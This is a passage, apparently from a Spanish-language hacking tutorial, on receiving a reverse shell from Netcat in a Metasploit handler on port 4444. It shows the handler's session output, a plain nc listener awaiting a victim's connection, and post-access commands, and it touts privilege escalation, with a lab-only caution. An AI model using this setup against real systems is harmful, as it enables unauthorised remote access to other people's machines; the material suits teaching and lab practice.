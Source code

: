 ```
[*] Started reverse TCP handler on <tu_ip>:4444
[*] Command shell session 1 opened
```

Ahora puedes escribir comandos directamente:

```bash
whoami
uname -a
ls
```

¡Ya tienes una shell remota desde Netcat conectada a Metasploit!

---

### 🧪 Alternativa: Usar `nc` directamente sin Metasploit

Puedes escuchar sin Metasploit así:

```bash
nc -lvnp 4444
```

Y esperar la conexión desde la víctima. Pero usando Metasploit puedes:

- Elevar privilegios
- Escalar ataques
- Usar módulos automáticos

---

### ⚠️ Importante

- No todos los Netcat tienen el parámetro `-e`. Algunos lo bloquean por seguridad.
- En sistemas modernos se usa `socat` o payloads más sofisticados.
- ¡Haz esto **solo en laboratorios controlados** o con autorización!

---

### 🧠 En resumen

| Elemento     | Valor                   |
| ------------ | ----------------------- |
| Herramientas | Netcat, Metasploit      |
| Tipo         | Reverse Shell           |
| Puerto       | 4444                    |
| Uso          | Acceso remoto con shell |

---

[🔼](#índice)

---
